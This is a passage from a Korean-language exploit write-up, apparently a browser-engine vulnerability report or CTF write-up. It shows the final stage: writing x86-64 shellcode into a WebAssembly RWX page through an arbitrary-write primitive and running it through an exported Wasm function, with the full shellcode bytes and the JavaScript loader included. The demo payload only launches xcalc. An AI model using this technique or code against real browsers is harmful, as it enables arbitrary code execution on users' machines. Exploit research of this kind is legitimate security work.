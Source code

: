 ![image](https://github.com/user-attachments/assets/e1625ddb-46d9-43a8-88df-f8ce02ee838a)

![image](https://github.com/user-attachments/assets/7af33e5c-588a-4fc5-8e7e-ebe33f0b7289)

### Execute shellcode

AAW를 이용하여 RWX 영역에 shellcode를 쓰고 Wasm의 exported function을 호출하면 shellcode가 실행된다.

[shellcode.py](./shellcode.py)

```shell
$ python3 shellcode.py
[0x48, 0xc7, 0xc0, 0x6c, 0x63, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x78, 0x63, 0x61, 0x50, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0xc7, 0xc0, 0x3a, 0x30, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x50, 0x48, 0x89, 0xe0, 0x48, 0xc7, 0xc3, 0x0, 0x0, 0x0, 0x0, 0x53, 0x50, 0x48, 0x89, 0xe2, 0x48, 0xc7, 0xc0, 0x3b, 0x0, 0x0, 0x0, 0xf, 0x5]
```

```js
// execve("/bin/xcalc", 0, ["DISPLAY=:0", 0])
let shellcode = [0x48, 0xc7, 0xc0, 0x6c, 0x63, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x78, 0x63, 0x61, 0x50, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0xc7, 0xc0, 0x3a, 0x30, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x50, 0x48, 0x89, 0xe0, 0x48, 0xc7, 0xc3, 0x0, 0x0, 0x0, 0x0, 0x53, 0x50, 0x48, 0x89, 0xe2, 0x48, 0xc7, 0xc0, 0x3b, 0x0, 0x0, 0x0, 0xf, 0x5];

// write shellcode to rwx region
console.log("[+] Writing shellcode...");
for (let i = 0; i < shellcode.length / 8; i++) {
    let value = 0n;
    for (let j = 0; j < 8; j++) {
        try {
            value += BigInt(shellcode[i * 8 + j]) << BigInt(j * 8);
        } catch (e) { }
    }
    aarw(rwx + BigInt(i * 8), value);
}
```

![image](https://github.com/user-attachments/assets/7dd9ae3f-06be-4064-8fc8-407d0aab6fd4)

![image](https://github.com/user-attachments/assets/884a3c3e-3715-406d-be35-dd052ef6d629)

```js
// execute shellcode
console.log("[+] Executing shellcode...");
wasm_instance.exports.main();
```

[pwn.js](./pwn.js)

![image](https://github.com/user-attachments/assets/924dedfb-59f7-4448-956f-6019c71eaef7)

## Patch
